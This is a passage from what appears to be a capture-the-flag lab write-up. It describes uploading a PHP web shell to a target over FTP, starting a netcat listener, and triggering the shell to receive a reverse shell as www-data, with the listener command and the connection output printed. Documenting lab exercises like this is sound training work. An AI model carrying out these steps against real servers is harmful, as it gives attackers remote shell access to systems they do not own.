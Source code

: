* We have successfully uploaded our `shell.php` file to the FTP server.

### No answer needed

###

### Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.

* Let's start listening for connections using `nc`.

```
$ nc -nlvp 9999            
listening on [any] 9999 ...
```

* Now we have to download the shell through our browser.&#x20;

<figure><img src="../../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>

* Let's check our listener.

```
$ nc -nlvp 9999            
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.108.36] 49210
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 11:51:14 up 31 min,  0 users,  load average: 0.00, 0.00, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
